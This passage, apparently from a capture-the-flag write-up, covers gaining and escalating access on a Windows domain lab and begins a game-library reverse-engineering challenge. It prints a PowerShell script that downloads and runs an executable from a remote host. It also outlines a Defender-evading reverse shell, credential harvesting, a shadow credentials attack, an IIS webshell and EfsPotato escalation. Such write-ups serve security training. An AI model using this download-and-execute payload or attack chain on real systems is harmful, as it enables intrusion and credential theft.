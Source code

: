 It looks a bit complicated but it isn't really: the long arrays of numbers are just strings XORd with that key, `thisisatesthelloworld`, and all they do is download a file from a remote server (run.txt) and then pass it to powershell for execution. The remote server is specified by IP, with the first two octets incremented by 256 (so in the above the target is 10.10.239.243:4444/run.txt). In the run.txt file I hosted on the server, I put the following powershell:

```powershell
$url = "http://10.10.239.243:4444/malicious.exe"
$filePath = "$env:temp\downloaded.exe"
Invoke-WebRequest -Uri $url -OutFile $filePath
if (Test-Path $filePath) {
    Start-Process -FilePath $filePath -NoNewWindow
} else {
    Write-Host "Download failed. File not found at $filePath"
}
```

Because the target machine is fully patched and running up to date defender, the revshell needs to bypass this. One coded in golang does the trick, getting a shell as the user `scrawler`.

From here, a bit of enumeration will show scrawler's password is saved in the winlogon registry keys. With that, given scrawler is a domain user, the domain can be enumerated in one of various ways (setting up a socks proxy or similar can allow you to use tools like ldapdomaindump, otherwise difficult given the server is not exposing all the ldap ports). You can find that one of the users in the domain has their password specified in the account description. If you use this password and check it against hashes for other users (e.g. via a GetUserSPNS enumeration) you will find that the same password is used for the user `Krampus_Debugger`.

From here bloodhound can help show the path: Krampus_Debugger has GenericWrite over Krampus_Shadow, who is a member of the KrampusIIS group, that has full write over the local webserver (which is running a ASP.NET RazorPages website). GenericWrite can allow you to set an SPN or disable pre-auth, getting the hash for Krampus_Shadow, but the hash is seemingly uncrackable. Instead, and somewhat suggested by the account name, you can use a shadow credentials attack, e.g. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials. With [pywhisker](https://github.com/ShutdownRepo/pywhisker) this can get you a winrm hash for Shadow (who is part of remote management, and so you can get a shell via evil-winrm or similar). Then you can modify the view pages of the website to give you a webshell/revshell as the IIS AppPool user. Since that user must always have SeImpersonate privileges, you can then use something like [EfsPotato](https://github.com/zcgonvh/EfsPotato) to get system.

Fun challenge, though the foot hold was a bit iffy.

## SQ5: An Avalanche of Web Apps

- Scoreboard: 2nd (team)
- Rated: Insane
- Released: Day 19

### Keycard

The main challenge involved exploiting a game. Given you have access to the server, you can grab the game binary and (via `ldd`) find its shared libraries, specifically `libaocgame.so`. If you get these off the machine (e.g. with a python webserver) and open them in ghidra or similar, you will find libaocgame has a getkeycard function that, when provided with the input argument "one_two_three_four_five" will create a zipfile with the keycard. The zip file is encrypted, but there is a password in the main game (recoverable via playing or via strings) that will unlock it to get the keycard. I used the following c program to call the getkeycard function (whose exported name could be recovered with `nm -D libaocgame.so`), though there is a way to invoke it through playing the game also I think:
